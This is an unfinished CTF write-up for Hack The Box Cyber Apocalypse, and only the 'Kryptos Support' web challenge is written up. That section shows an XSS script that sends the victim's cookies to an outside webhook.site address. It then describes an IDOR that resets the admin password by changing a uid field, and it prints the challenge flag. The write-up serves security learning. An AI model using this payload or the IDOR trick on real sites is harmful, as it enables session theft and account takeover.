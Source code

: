 # Hack The Box - Cyber Apocalypse

A CTF Hosted by Hack The Box which lasted 5 days. I ranked 245th out of more than 7000 teams.

------------

- [Pwn](#pwn)
	-  [Space Pirate: Entrypoint](#pwn1 "Space Pirate: Entrypoint")
	-  [Space pirate: Going Deeper](#pwn2)
	-  [Space pirate: Retribution](#pwn3)
	-  [Vault-breaker](#pwn4)
	-  [Fleet Management](#pwn5)
	-  [Hellbound](#pwn6)
	-  [Trick or Deal](#pwn7)
- [Web](#web)
	-  [Kryptos Support](#web1)
	-  [BlinkerFluids](#web2)
	-  [Amidst Us](#web3)
	-  [Intergalactic Post](#web4)
	-  [Acnologia Portal](#web5)
	-  [Red Island](#web6)
	-  [Mutation Lab](#web7)
- [Rev](#rev)
	-  [WIDE](#rev1)
- [Misc](#misc)
	-  [Compressor](#misc1)

------------

### Pwn
1. <p name="pwn1">Space Pirate: Entrypoint</p>

2. <p name="pwn2">Space Pirate: Going Deeper</p>

3. <p name="pwn3">Space pirate: Retribution</p>

4. <p name="pwn4">Vault-breaker</p>

5. <p name="pwn5">Fleet Management</p>

6. <p name="pwn6">Hellbound</p>

7. <p name="pwn7">Trick or Deal</p>


### Web
1. <p name="web1">Kryptos Support</p>
For this challenge we were given a website with a `/login` & `/signup` pages. Upon signing up, we get the following page:

<p align="center">
    <img src='/2022/Hack%20The%20Box%20-%20Cyber%20Apocalypse/img/kryptossupport_web1.png'>
</p>

So, this should be a basic XSS since we didn't even get a source code. Going for a basic payload:

```html
<script>
    fetch('https://webhook.site/a02af4ea-d61b-440d-9982-c3804fd1587a?q='+document.cookie);
</script>
```

Gives us the moderator's cookies! Having a look on them, we see a session cookie. We add the session & we visit `/settings`. The magic happens & we are logged in. We see that we have two fields used for changing the current user password & there is no current password confirmation but there is no flag yet? We apparently need to access something higher, maybe an admin account? So we try the change password functionality & we have a look on the HTTP Request. We see that we are sending the UID in the request body:

```json
{
    "password": "hellothere",
    "uid": "100"
}
```

Trying to find the admin ID, we change the UID to 1 & send our HTTP Request. We get a confirmation from the server:

```json
{
    "message": "Password for admin changed successfully!"
}
```

We login as the admin now & we get our flag: `HTB{x55_4nd_id0rs_ar3_fun!!}`

2. <p name="web2">BlinkerFluids</p>

3. <p name="web3">Amidst Us</p>

4. <p name="web4">Intergalactic Post</p>

5. <p name="web5">Acnologia Portal</p>

6. <p name="web6">Red Island</p>

7. <p name="web7">Mutation Lab</p>

### Rev
1. <p name="rev1">WIDE</p>

### Misc
1. <p name="misc1">Compressor</p>


WIP